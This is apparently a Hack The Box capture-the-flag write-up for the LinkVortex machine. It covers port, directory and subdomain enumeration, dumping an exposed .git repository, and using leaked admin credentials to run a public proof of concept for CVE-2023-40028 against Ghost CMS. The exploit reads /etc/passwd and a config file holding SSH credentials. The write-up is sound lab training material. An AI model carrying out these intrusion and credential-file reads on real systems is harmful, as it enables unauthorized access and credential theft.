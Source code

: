 # LinkVortex Write-up

<img src="https://labs.hackthebox.com/storage/avatars/97f12db8fafed028448e29e30be7efac.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.11.47`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
    |_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
    80/tcp open  http    Apache httpd
    |_http-server-header: Apache
    |_http-title: Did not follow redirect to http://linkvortex.htb/
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add domain name to `/etc/hosts`

    sudo echo "10.10.11.47 linkvortex.htb" | sudo tee -a /etc/hosts

Main page 

![image](https://github.com/user-attachments/assets/8d7b2112-786e-415a-9e20-4b45ad71107a)

### Directory enumeration with Dirsearch

`python3 dirsearch.py -u http://linkvortex.htb`

      _|. _ _  _  _  _ _|_    v0.4.3                                                        
     (_||| _) (/_(_|| (_| )                                                                 
                                                                                            
    Target: http://linkvortex.htb/
    
    [13:17:08] Scanning:                                                                    
    [13:18:20] 301 -   179B - /assets  ->  /assets/                             
    [13:18:24] 301 -     0B - /axis2-web//HappyAxis.jsp  ->  /axis2-web/HappyAxis.jsp/
    [13:18:28] 301 -     0B - /axis//happyaxis.jsp  ->  /axis/happyaxis.jsp/    
    [13:18:28] 301 -     0B - /axis2//axis2-web/HappyAxis.jsp  ->  /axis2/axis2-web/HappyAxis.jsp/
    [13:18:38] 301 -     0B - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  /Citrix/AccessPlatform/auth/clientscripts/cookies.js/
    [13:18:48] 301 -     0B - /engine/classes/swfupload//swfupload.swf  ->  /engine/classes/swfupload/swfupload.swf/
    [13:18:48] 301 -     0B - /engine/classes/swfupload//swfupload_f9.swf  ->  /engine/classes/swfupload/swfupload_f9.swf/
    [13:18:50] 301 -     0B - /extjs/resources//charts.swf  ->  /extjs/resources/charts.swf/
    [13:18:50] 200 -   15KB - /favicon.ico                                      
    [13:18:55] 301 -     0B - /html/js/misc/swfupload//swfupload.swf  ->  /html/js/misc/swfupload/swfupload.swf/
    [13:19:03] 200 -    1KB - /LICENSE                                          
    [13:21:07] 200 -   121B - /robots.txt                                        
    [13:22:03] 200 -   527B - /sitemap.xml                                       

`/robots.txt`

![image](https://github.com/user-attachments/assets/0020976b-e733-4743-8ede-5e170b74f309)

`/ghost/`

![image](https://github.com/user-attachments/assets/0bd133c8-5ae1-4c5d-ba86-4da790dab444)


### Sub-Domain enumeration 

Using Ffuf 

    ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -mc 200

Find `dev` subdomain, so add to `/etc/hosts` and open!

    sudo echo "10.10.11.47 dev.linkvortex.htb" | sudo tee -a /etc/hosts

![image](https://github.com/user-attachments/assets/14c6ca4d-0ac6-4bcd-8a89-efe73e401c4b)

### Directory enumeration

Enumerate the directories for dev.linkvortex.htb

`python3 dirsearch.py -u http://dev.linkvortex.htb`

          _|. _ _  _  _  _ _|_    v0.4.3
         (_||| _) (/_(_|| (_| )
        
        Scanning: 
        301 -   239B - /.git  ->  http://dev.linkvortex.htb/.git/        
        200 -   201B - /.git/config                                      
        200 -    73B - /.git/description
        200 -    41B - /.git/HEAD                                        
        200 -   874B - /.git/info/                                       
        200 -   240B - /.git/info/exclude
        200 -   868B - /.git/logs/                                       
        200 -   175B - /.git/logs/HEAD
        200 -   147B - /.git/packed-refs                                 
        200 -   869B - /.git/refs/
        301 -   249B - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
        200 -    3KB - /.git/                                            
        200 -    1KB - /.git/objects/                                    
        200 -    3KB - /.git/hooks/                                      
        200 -  691KB - /.git/index                                       
        403 -   199B - /cgi-bin/                                         
        200 -    2KB - /index.html                                       
        403 -   199B - /server-status                                    
        403 -   199B - /server-status/

We can find `/.git/` let's use GitHack

### GitHack

    python3 GitHack.py -u "http://dev.linkvortex.htb/.git/"

![image](https://github.com/user-attachments/assets/8ef7be29-cc87-4f12-be1e-812197554f84)

    cat dev.linkvortex.htb/ghost/core/test/regression/api/admin/authentication.test.js

![image](https://github.com/user-attachments/assets/392bec70-cd33-491b-84e9-3c28fc588b03)

Password:

    OctopiFociPilfer45

Open page linkvortex.htb/ghost/#/signin and try to login like `admin`

`admin@linkvortex.htb`:`OctopiFociPilfer45`

![image](https://github.com/user-attachments/assets/cf968a12-5b5e-4aff-8c24-20bc9a718fff)

![image](https://github.com/user-attachments/assets/12f1bff5-e807-4c1c-a129-d82507bf27bb)

We now know the version of the CMS `GHost`. 

It is `v5.58.0`, we can find this out using `Wappalyzer` or by reading `/.git/config`. 

![image](https://github.com/user-attachments/assets/11fc0e3c-fb2c-4e29-94f5-b45096abe554)

## Exploitation 

### CVE-2023-40028

CVE-2023-40028 is a vulnerability in Ghost CMS that allows arbitrary file reads through improper file handling. 

Find and clone the open POC for CVE-2023-40028.

    git clone https://github.com/0xyassine/CVE-2023-40028

Change `GHOST_URL` IP to our host!

    GHOST_URL='http://linkvortex.htb'

![image](https://github.com/user-attachments/assets/d37ecaa3-f736-437f-8b35-af95ec74a57d)

Run script

    ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45

And enter file name || path.

file> `/etc/passwd`

![image](https://github.com/user-attachments/assets/5439acf3-9f21-403f-8999-ce44c2a815dc)

If you remember we have a Dockerfile from GitHack, let's go through it.

![image](https://github.com/user-attachments/assets/7b18733b-1a23-4a25-a5c1-b8231b7f7545)

    var/lib/ghost/config.production.json

![image](https://github.com/user-attachments/assets/4cfac89a-a9ff-4194-b6ef-b53a0a2d5f6d)

Credentials `bob@linkvortex.htb`:`fibber-talented-worth`

    ssh bob@linkvortex.htb

![image](https://github.com/user-attachments/assets/b6e4fd1a-a7a8-4d10-896a-a246d6186afc)

### Get the user flag!

![image](https://github.com/user-attachments/assets/830f92a3-f1b1-4840-9368-8a7f568046df)
